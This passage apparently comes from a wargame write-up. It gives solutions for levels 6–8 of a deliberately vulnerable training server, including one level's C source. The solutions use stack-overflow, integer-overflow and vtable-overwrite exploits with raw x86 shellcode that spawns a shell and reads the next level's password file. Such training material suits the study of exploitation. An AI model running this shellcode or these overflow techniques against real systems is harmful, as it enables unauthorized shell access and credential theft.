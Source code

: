 About the same as level5, but the 2 arguments are concatenated before filling the buffer.

```
LANG=de ./level06 $(python -c 'print("\x90"*40)') $(python -c 'print("\x90"*2 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xb1\xfb\xff\xbf")')
sh-4.2$ cat /home/level7/.pass
```

##Level 7
```
int main(int argc, char **argv)
{
        int count = atoi(argv[1]);
        int buf[10];

        if(count >= 10 )
                return 1;

        memcpy(buf, argv[2], count * sizeof(int));

        if(count == 0x574f4c46) {
                printf("WIN!\n");
                execl("/bin/sh", "sh" ,NULL);
        } else
                printf("Not today son\n");

        return 0;
}
```

Cannot go beyond 10 digits to overflow the buffer. Let's overflow `count * sizeof(int)` so we get the desired offset.

The `level7_findargv1` program looks for a suitable argv[1] so that 60 bytes can be copied to `buf`, and corrupt `count`.

```
level7@io:/levels$ /levels/level07 -1073741808 $(python -c 'print("3"*60) + "\x46\x4c\x4f\x57"')
sh-4.2$ cat /home/level8/.pass
```

##Level 8

Lost the password, but it involves C++ code with a function pointer method call that must be overwritten.

Find the virtual method table entry address, and overwrite its content with your target buffer address.

```
level8@io:/levels$ ./level08 $(python -c 'print("\x10\xa0\x04\x08"+"\x90"*72 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1" + "\x0c\xa0\x04\x08")')
sh-4.2$ id
uid=1008(level8) gid=1008(level8) euid=1009(level9) groups=1009(level9),1008(level8),1029(nosu)
sh-4.2$ cat /home/level9/.pass
```
